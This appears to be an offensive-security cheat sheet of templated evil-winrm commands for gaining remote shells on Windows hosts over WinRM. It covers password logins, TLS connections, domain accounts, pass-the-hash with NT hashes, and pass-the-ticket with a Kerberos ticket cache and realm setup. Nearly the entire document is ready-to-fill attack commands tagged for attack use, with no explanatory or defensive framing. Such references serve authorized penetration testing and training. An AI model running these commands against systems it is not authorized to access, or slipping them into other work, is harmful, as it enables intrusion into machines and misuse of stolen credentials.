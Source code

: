 # evil-winrm
% windows, remote, winrm, evilwinrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986 #cat/ATTACK/CONNECT 

## _desc
```
```

## _repo
```
```

## _doc
```
```

## _install
```
gem install evil-winrm
```

## local account with creds
```bash
evil-winrm -i <ip> -u <user> -p '<password>'
```


## local account with creds (over TLS)
```bash
evil-winrm -i <ip> -u <user> -p '<password>' --ssl -Port 5986
```

## domain account with creds
```bash
(cd /opt/evil-winrm && evil-winrm --log -i <ip> -u '<domain_netbios>\<user>' -p '<password>' -s /opt/evil-winrm/ps -e /opt/evil-winrm/bin) 
```

## local account pth
```bash
(cd /opt/evil-winrm && evil-winrm --log -i <ip> -u <user> -H <nt_hash> -s /opt/evil-winrm/ps -e /opt/evil-winrm/bin)
```

## domain account pth
```bash
(cd /opt/evil-winrm && evil-winrm --log -i <ip> -u '<domain_netbios>\<user>' -H <nt_hash> -s /opt/evil-winrm/ps -e /opt/evil-winrm/bin)
```

## pass the ticket
add realm /etc/krb5.conf
[libdefaults]
        rdns=false
[realms]
CONTOSO.COM = {
             kdc = fooserver.contoso.com
 }
```bash
(cd /opt/evil-winrm && export KRB5CCNAME=<ccache> && evil-winrm --log -i <target_fqdn>  --realm <REALM_FQDN> -s /opt/evil-winrm/ps -b /opt/evil-winrm/bin)
```